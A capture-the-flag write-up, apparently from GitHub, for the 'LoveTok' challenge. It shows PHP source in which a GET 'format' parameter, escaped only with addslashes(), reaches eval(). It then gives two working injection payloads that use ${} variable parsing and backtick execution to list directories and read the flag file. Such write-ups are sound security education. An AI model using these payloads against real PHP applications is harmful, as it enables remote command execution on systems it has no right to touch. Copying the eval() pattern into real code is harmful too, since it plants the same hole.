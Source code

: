 # LoveTok
![Screenshot from 2021-08-15 15-10-24](https://user-images.githubusercontent.com/87865134/129471709-b0376ea8-bf4d-4379-a679-bac6403f1d85.png)

## - Download source code and analysis
- Use **MVC **
- Have:
  - Router:
  ```php
    $router = new Router();
    $router->new('GET', '/', 'TimeController@index');
  ```
  - Controller:
  ```php
    class TimeController
    {
        public function index($router)
        {
            $format = isset($_GET['format']) ? $_GET['format'] : 'r';
            $time = new TimeModel($format);
            return $router->view('index', ['time' => $time->getTime()]);
        }
    }
  ```
  - Model: 
  ```php
    class TimeModel
    {
        public function __construct($format)
        {
            $this->format = addslashes($format);
            echo($this->format . '\n');

            [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
            $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
        }

        public function getTime()
        {
            eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
            return isset($time) ? $time : 'Something went terribly wrong';
        }
    }
  ```
- `TimeModel` use `addslashes()` function to escape `$format` which is data of `$_GET('format')` and put it in `eval()` function => it it a vulnerability

## - Exploit: 
- `addslashes()` function don't escape characters: `$`, `{`, `}`, ``` ` ``` => can bypass use **Variable parsing** and **Execution Operators**

### 1. List files on directory
- payload:
```php
?format=${print(`ls /`)}
```
![Screenshot from 2021-08-15 15-25-48](https://user-images.githubusercontent.com/87865134/129472156-cf8f1bbe-3662-4176-a7b1-1a1eec7498a8.png)

>  found file `flagDUomZ` 

### 2. Read file to get flag
- payload:
```php
?format=${print(`cat ../flagDUomZ`)}
```
![Screenshot from 2021-08-15 15-27-59](https://user-images.githubusercontent.com/87865134/129472193-a031e325-7114-4647-880a-b117d6863769.png)

## - References:
- [Variable parsing](https://www.php.net/manual/en/language.types.string.php#language.types.string.parsing.simple)
- [Execution Operators](https://www.php.net/manual/en/language.operators.execution.php)
